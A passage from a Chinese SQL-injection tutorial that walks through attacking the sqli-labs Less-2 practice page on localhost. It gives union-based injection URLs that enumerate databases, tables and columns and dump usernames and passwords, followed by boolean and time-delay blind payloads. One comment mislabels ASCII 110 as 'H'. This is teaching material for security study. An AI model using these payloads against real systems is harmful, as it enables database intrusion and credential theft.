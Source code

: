 
<p data-nodeid="53473">可以看到各个数据库名已经回显出来了。</p>
<p data-nodeid="53474"><strong data-nodeid="53714">（3）获取当前数据库名</strong></p>
<p data-nodeid="53475">通过当前页面的功能，我们可以知道它当前的数据库会涉及哪些数据，比如当前是账号创建和登录的页面，数据库必然包含账号密码信息，我们就可以先获取当前数据库名，后面再用来读取数据库中的字段值。MySQL 提供的 database() 函数可用来获取数据库名，因此我们可以像下面这样构建 URL：</p>
<pre class="lang-sql" data-nodeid="53476"><code data-language="sql">http://localhost/Less-2/?id=0 union <span class="hljs-keyword">select</span> <span class="hljs-number">1</span>,<span class="hljs-number">2</span>,<span class="hljs-keyword">database</span>()<span class="hljs-comment">--+</span>
</code></pre>
<p data-nodeid="53477">访问后我们得到当前数据库名为 security，接下来就可以去尝试读取该数据库内的内容。</p>
<p data-nodeid="53478"><strong data-nodeid="53720">（4）枚举数据库中的表名</strong></p>
<p data-nodeid="53479">通过以下语句获取存储账号密码的表名 users：</p>
<pre class="lang-sql" data-nodeid="53480"><code data-language="sql">http://localhost/Less-2/?id=0 union <span class="hljs-keyword">select</span> <span class="hljs-number">1</span>,<span class="hljs-number">2</span>,<span class="hljs-keyword">group_concat</span>(table_name) <span class="hljs-keyword">from</span> information_schema.tables <span class="hljs-keyword">where</span> table_schema=<span class="hljs-keyword">database</span>()<span class="hljs-comment">--+</span>
</code></pre>
<p data-nodeid="53481">访问上述特意构造的链接后，页面返回以下内容：</p>
<p data-nodeid="55651" class=""><img src="https://s0.lgstatic.com/i/image2/M01/04/8B/Cip5yF_y7_OAZnv_AAGOoagH4-c761.png" alt="图片9.png" data-nodeid="55655"></p>
<div data-nodeid="55652"><p style="text-align:center">图 9：数据库中的表名</p></div>


<p data-nodeid="53484"><strong data-nodeid="53729">（5）枚举表中的字段名</strong></p>
<p data-nodeid="53485">得到表名后，我们可以先看看有哪些字段名，为后面获取字段值做铺垫。由于表 information_schema.columns 中包含字段列表信息，因此我们可以通过它获取每个字段的名称，构造以下 URL 获取：</p>
<pre class="lang-java" data-nodeid="53486"><code data-language="java">http:<span class="hljs-comment">//localhost/Less-2/?id=0 union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'--+</span>
</code></pre>
<p data-nodeid="53487">访问后页面返回以下内容，得到表中的各个字段名：</p>
<p data-nodeid="53488"><img src="https://s0.lgstatic.com/i/image/M00/8C/B3/CgqCHl_y7yGAUF0ZAAAojuOFTVI874.png" alt="Drawing 9.png" data-nodeid="53736"></p>
<div data-nodeid="53489"><p style="text-align:center">图 10：表中的字段名</p></div>
<p data-nodeid="53490"><strong data-nodeid="53740">（6）获取字段值</strong></p>
<p data-nodeid="53491">前面我们已经拿到字段名、表名，接下来就可以直接通过 select 读取相应字段的值，比如此处用来获取 username 和 password 的值的 URL 请求：</p>
<pre class="lang-java" data-nodeid="53492"><code data-language="java">http:<span class="hljs-comment">//localhost/Less-2/?id=0 union select 1,2,group_concat(username,': ',password) from users--+</span>
</code></pre>
<p data-nodeid="53493">访问后页面返回各字段值：</p>
<p data-nodeid="56554" class="te-preview-highlight"><img src="https://s0.lgstatic.com/i/image2/M01/04/8C/CgpVE1_y7_uAa4SGAADxQK_Xy8o851.png" alt="图片11.png" data-nodeid="56558"></p>
<div data-nodeid="56555"><p style="text-align:center">图 11：各字段的值</p></div>


<p data-nodeid="53496"><strong data-nodeid="53749">（7）盲注猜解字符串</strong></p>
<p data-nodeid="53497">前面的示例都是在有错误回显的情况下，通过 SQL 注入获得我们想要的用户信息，但有时在渗透测试时，网站并没有错误回显，此时就只能去盲注猜解出数据库名、字段名和值等关键信息。盲注猜解字符串的主要方式有布尔型盲注和基于时间延迟盲注，相关的知识我在《06 | SQL 注入：小心数据库被拖走（上）》中介绍过了。</p>
<pre class="lang-sql" data-nodeid="53498"><code data-language="sql">布尔型盲注：
http://localhost/Less-2/?id=1 and ascii(substr((<span class="hljs-keyword">select</span> <span class="hljs-keyword">database</span>()),<span class="hljs-number">1</span>,<span class="hljs-number">1</span>))&gt;<span class="hljs-number">110</span><span class="hljs-comment">--+ 判断数据库名的第一个字符的 ascii 值是否大于 110('H')</span>
基于时间延迟盲注：
<span class="hljs-keyword">http</span>://localhost/<span class="hljs-keyword">Less</span><span class="hljs-number">-2</span>/?<span class="hljs-keyword">id</span>=<span class="hljs-number">1</span> <span class="hljs-keyword">union</span> <span class="hljs-keyword">select</span> <span class="hljs-keyword">if</span>(<span class="hljs-keyword">SUBSTRING</span>(<span class="hljs-keyword">password</span>,<span class="hljs-number">1</span>,<span class="hljs-number">4</span>)=<span class="hljs-string">'Dumb'</span>,<span class="hljs-keyword">sleep</span>(<span class="hljs-number">5</span>),<span class="hljs-number">1</span>),<span class="hljs-number">2</span>,<span class="hljs-number">3</span> <span class="hljs-keyword">from</span> <span class="hljs-keyword">users</span><span class="hljs-comment">--+ 提取密码前四个字符做判断，正确就延迟 5 秒，错误返回 1</span>
</code></pre>